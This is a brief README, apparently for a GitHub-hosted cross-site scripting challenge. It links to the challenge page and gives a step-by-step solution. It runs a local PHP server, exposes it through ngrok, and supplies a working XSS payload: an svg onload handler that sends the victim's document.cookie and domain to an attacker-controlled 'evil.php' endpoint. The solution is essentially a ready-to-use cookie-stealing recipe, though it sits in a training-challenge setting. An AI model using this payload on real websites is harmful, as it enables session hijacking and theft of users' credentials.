 Vulnerable html page contains cookie.
Let's Steal the cookie with evil.php

If you can't solve, look solution 


Are you build your evil payload ?
Let's try ->  https://cyb3rsalih.github.io/xss-challenge/



Please let me know if any problem... PR's wellcome :)


======= SOLUTION ======= 

1- Create your local php server in folder where evil.php 
` php -S localhost:1234 `

2- Connect your local server to internet
` ngrok http 1234 `

3- Your address is something like this
` http://xxxxxxxxx.ngrok.io `


4- Now add your XSS payload to vulnerable input.
```
<svg onload="function a(){var url = `http://xxxxxxxxx.ngrok.io/evil.php?domain=${document.domain}&cookie=${document.cookie}`;var r=new XMLHttpRequest();r.open('GET', url, true);r.send();};a();">
```

Each time your evil.js execute, your stealed.html will updated with cookies.
